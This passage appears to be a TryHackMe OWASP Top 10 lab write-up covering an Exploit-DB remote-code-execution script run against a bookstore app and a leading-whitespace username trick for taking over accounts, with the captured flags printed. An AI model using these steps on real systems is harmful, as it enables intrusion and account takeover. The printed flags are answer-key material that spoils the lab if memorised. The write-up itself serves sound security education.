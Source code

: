 
### Task 13-15: Vulnerable and Outdated Components

**Target**: Bookstore application at `http://MACHINE_IP`

**Exploitation:**
```bash
# Research exploit on Exploit-DB
# Search: "bookstore"
# Found: exploit 47887.py (Online Book Store RCE)

# Download and execute exploit
python3 47887.py http://MACHINE_IP

# Launch shell (type 'y' when prompted)
y

# Read flag
cat /opt/flag.txt
```

**Flag**: `THM{But_1ts_n0t_myf4ult!}`

**Key Insight**: Keep all components updated. Regularly scan for known vulnerabilities using tools like OWASP Dependency-Check or Snyk. Subscribe to security advisories.

---

### Task 16-17: Identification and Authentication Failures

**Target**: `http://MACHINE_IP`

**Vulnerability**: Username bypass using whitespace

**Exploitation:**

**Attempt 1: Direct Registration**
```
Username: darren
Result: "Error: This user is already registered"
```

**Attempt 2: Whitespace Bypass**
```
Username: " darren" (space before username)
Email: your@email.com
Password: your_password
Result: Successfully registered with same privileges
```

**Accessing darren's account:**
- **Flag**: `fe86079416a21a3c99937fea8874b667`

**Accessing arthur's account:**
```
Username: " arthur" (space before username)
Email: your@email.com
Password: your_password
```
- **Flag**: `d9ac0f7db4fda460ac3edeb75d75e16e`
